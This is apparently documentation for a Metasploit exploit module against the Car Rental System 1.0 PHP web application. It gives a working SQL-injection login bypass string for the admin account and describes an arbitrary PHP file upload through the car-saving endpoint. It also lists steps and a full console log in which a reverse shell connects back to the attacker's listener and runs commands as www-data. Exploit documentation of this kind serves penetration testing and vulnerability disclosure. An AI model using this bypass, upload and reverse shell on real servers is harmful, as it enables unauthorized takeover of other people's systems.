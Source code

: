 ## Vulnerable Application

Car Rental System 1.0 is a web application that allows users to rent cars using an online portal. It was written using PHP and MySQL.

Vendor Homepage: https://www.sourcecodester.com/php/14544/car-rental-management-system-using-phpmysqli-source-code.html
Software Link: https://www.sourcecodester.com/download-code?nid=14544&title=Car+Rental+Management+System+using+PHP%2FMySQLi+with+Source+Code

to install, extract all files in a web directory, edit admin/db_connect.php, and create database following database/car_rental_db.sql

Users can log into the app as an administrator by using the username ` ' OR 1=1 limit 1#` , 
and a random word as password. `limit 1` is used as it ensures the database will select the first
user in the database, ADMIN, thereby logging the attacker in as the administrative user.

Once authenticated as an administrator, attackers can then upload arbitrary files via the `/admin/ajax.php?action=save_car` page, which will then be placed under the `/admin/` directory on the web server. By uploading
an executing a malicious PHP file, attackers can gain arbitrary code execution on the web server as the `www-data` user.

## Verification Steps

Confirm that functionality works:
1. Start `msfconsole`
2. `use exploit/multi/php/car_rental_system`
3. Set the `RHOST`.
4. Set the `TARGETURI`.
7. Set `LHOST` and `LPORT`
8. Run the exploit: `run`
9. Confirm you have now a reverse shell

**TARGETURI**
The path to the Car Rental System HOME directory.


## Scenarios

### Debian 10 running Apache2 and php7.3

```
msf6 exploit(multi/php/car_rental_system) > use exploit/multi/php/car_rental_system
[*] Using configured payload php/reverse_php
msf6 exploit(multi/php/car_rental_system) > set RHOSTS 192.168.0.130
RHOSTS => 192.168.0.130
msf6 exploit(multi/php/car_rental_system) > set TARGETURI /car_rental/
TARGETURI => /car_rental/
msf6 exploit(multi/php/car_rental_system) > set LHOST eth0
LHOST => eth0
msf6 exploit(multi/php/car_rental_system) > exploit -j
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.0.114:4444 
[*] Attempting Login
msf6 exploit(multi/php/car_rental_system) > [*] Cookie: PHPSESSID=uokk0ufj0ujbphrte03upmsej7;
[*] Creating new car
[*] Last Images inserted id=6
[*] index.php?page=manage_car&id=6
[*] assets/uploads/cars_img/1605195300_sh_ell.php
[*] Command shell session 1 opened (192.168.0.114:4444 -> 192.168.0.130:56876) at 2020-11-12 16:34:58 +0100
msf6 exploit(multi/php/car_rental_system) > 
msf6 exploit(multi/php/car_rental_system) > sessions 

Active sessions
===============

  Id  Name  Type           Information  Connection
  --  ----  ----           -----------  ----------
  1         shell php/php               192.168.0.114:4444 -> 192.168.0.130:56876 (192.168.0.130)

msf6 exploit(multi/php/car_rental_system) > sessions 1
[*] Starting interaction with 1...

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

uname -a
Linux 6784e50e1781 4.19.0-11-amd64 #1 SMP Debian 4.19.146-1 (2020-09-17) x86_64 GNU/Linux

```
